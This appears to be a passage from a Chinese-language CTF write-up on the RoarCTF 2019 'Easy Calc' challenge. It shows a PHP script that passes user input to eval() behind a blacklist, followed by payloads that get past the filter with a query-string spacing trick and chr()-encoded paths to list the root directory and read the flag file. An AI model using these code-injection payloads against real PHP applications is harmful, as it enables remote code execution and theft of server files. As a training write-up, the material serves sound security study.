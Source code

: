 然后把属性数量改一下, 提交得到 flag

## [RoarCTF 2019]Easy Calc 重点！！！（RCE,php变量传递字符串解析的特性,无参数RCE）

右键源代码

![](assets/202208211743852-1700743077637193.png)

calc.php(实际过滤的内容远不止这里waf写的这么多)

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
    
    
payload:注意问号后有一个空格，这就是利用变量传递的字符串解析特性
? num=phpino()
? num=var_dump(scandir(chr(47)))相当于? num=system(ls /)。chr(47)=" / "。
? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))==>>file_get_contents(/f1agg)相当于? num=system(cat /f1agg)
```
